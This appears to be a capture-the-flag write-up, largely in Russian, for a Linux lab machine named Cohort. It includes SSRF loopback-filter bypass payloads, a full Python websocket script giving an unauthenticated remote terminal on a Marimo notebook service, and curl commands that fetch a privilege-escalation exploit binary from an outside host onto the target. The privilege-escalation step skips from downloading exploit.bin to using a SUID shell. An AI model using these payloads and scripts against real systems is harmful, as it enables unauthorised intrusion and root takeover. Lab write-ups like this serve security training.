

# Cohort

Level: `Easy`
OS: `Linux`

## Description

# Solution

## Phase 1: Reconnaissance

```bash
nmap -sC -sV --top-ports 20 -oN cohort_scan.txt cohort.htb
```

Результат сканирования:
```bash
PORT     STATE  SERVICE       VERSION
21/tcp   closed ftp
22/tcp   open   ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
23/tcp   closed telnet
25/tcp   closed smtp
53/tcp   closed domain
80/tcp   open   http          nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
110/tcp  closed pop3
111/tcp  closed rpcbind
135/tcp  closed msrpc
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  open   ssl/http      nginx 1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-title: Cohort Analytics
|_http-server-header: nginx/1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Not valid before: 2026-06-01T18:47:07
|_Not valid after:  2126-05-08T18:47:07
445/tcp  closed microsoft-ds
993/tcp  closed imaps
995/tcp  closed pop3s
1723/tcp closed pptp
3306/tcp closed mysql
3389/tcp closed ms-wbt-server
5900/tcp closed vnc
8080/tcp closed http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 13 18:30:35 2026 -- 1 IP address (1 host up) scanned in 28.81 seconds
```

## Phase 2: Web Portal

Изучив сайт находим endpoint: `https://cohort.htb/portal.html`


В отдельном терминале запускаем сервер:
```bash
python3 -m http.server 8000
``` 

Через `ip a` узнаем свой ip и создаем payload, чтобы проверить `SSRF`:
`http://10.10.17.4:8000/ssrf-test`

И в другом терминале с сервером видим: 
```bash
10.129.176.69 - - [13/Nov/2026 18:46:40] code 404, message File not found
10.129.176.69 - - [13/Nov/2026 18:46:40] "GET /ssrf-test HTTP/1.1" 404 -
```

## Phase 3: Filter Bypass
Пробуем обратиться к самому серверу через `SSRF`, но
если попробуем обратиться к `http://127.0.0.1/status` увидим:

```text
{
    "ok": false,
    "message": "Internal or loopback addresses are not permitted."
}
```

Но вспоминаем простейший обход: `http://127.1/status`

```text
{
    "ok": true, "fetched_status": 200,
    "content_type": "application/json",
    "preview": "{\"service\":\"cohort-edge\",\"status\":\"ok\",\"generated_by\":\"nginx\",\"upstreams\":[{\"name\":\"marketing\",\"host\":\"cohort.htb\",\"root\":\"/var/www/cohort\"},{\"name\":\"insights-api\",\"host\":\"cohort.htb\",\"path\":\"/api/\",\"target\":\"127.0.0.1:5000\"},{\"name\":\"notebooks\",\"host\":\"nb-1be3782a8afd3ad5.cohort.htb\",\"target\":\"127.0.0.1:8888\",\"note\":\"internal analyst workspace, not for external use\"}]}",
    "message": "Source reachable."
}
```

Но есть и другие обходы:
- `http://127.0.0.1@127.1`
- `http://0x7f000001`
- `http://127.1:80`


Причем мы нашли хост: `nb-1be3782a8afd3ad5.cohort.htb`

Добавляем в хосты: `sudo sh -c 'echo "10.129.176.69 nb-1be3782a8afd3ad5.cohort.htb" >> /etc/hosts'`

## Phase 4: RCE Marimo Unauthenticated WebSocket

exploit.py:
```python
import ssl, threading, websocket

host    = "nb-1be3782a8afd3ad5.cohort.htb"
ws_url  = "wss://10.129.176.69/terminal/ws"

ws = websocket.create_connection(
    ws_url,
    host=host,
    origin="https://" + host,
    sslopt={"cert_reqs": ssl.CERT_NONE},
    timeout=5,
)

def recv_loop():
    while True:
        try:
            print(ws.recv(), end="")
        except Exception:
            break

threading.Thread(target=recv_loop, daemon=True).start()

while True:
    cmd = input()
    if cmd.lower() == "exit":
        break
    ws.send(cmd + "\r")
ws.close()
```

```bash
python exploit.py

marimo@cohort:~$ id
uid=1000(marimo) gid=1000(marimo) groups=1000(marimo)
```

Получаем первый флаг:
```bash
marimo@cohort:~$ cat user.txt
d28aaf652e7af01e08ee2209*******
marimo@cohort:~$
```

## Phase 5: Privelege Escalation

1. Сначала качаем exploit:
   ```bash
   curl -O https://raw.githubusercontent.com/shibaaa204/Pack2TheRoot/main/exploit.bin
   ```
2. Запускаем сервер:
   ```bash
   python3 -m http.server 8000
   ```
3. Качаем на цель шел:
   ```bash
   curl -o ~/exploit.bin http://10.10.17.4:8000/exploit.bin
   chmod +x ~/exploit.bin
   ls -l ~/exploit.bin
   ```

Запускаем exploit с флагом для получения рут-шел:
```bash
/tmp/.suid_bash -p
```

После запуска эксплойта получаем рут-шел и берем флаг:
```bash
marimo@cohort:~$ /tmp/.suid_bash -p
/tmp/.suid_bash -p
ls
.suid_bash-5.2# ls
exploit.bin  notebooks  user.txt
whoami
.suid_bash-5.2# whoami
root
cat /root/root.txt
.suid_bash-5.2# cat /root/root.txt
76436a0d0f7feb5571c2ae2d07*******
```

# Final

И того мы использовали:
- nmap - Port scanning
- python3 - HTTP server, exploit dev
- websocket-client - WebSocket connections
- curl - File Transfer
- Pack2TheRoot - PE epxloit

Что узнали:
- SSRF Bypass: IPv4 shorthand (127.1) bypasses literal deny-lists
- Internal Enumeration: Status endpoints often leak internal service details
- WebSocket RCE: Unauthenticated terminals provide instant shell access
- Privilege Escalation: PackageKit TOCTOU race can yield SUID bash
- File Locations: Downloading exploits to correct directories matters
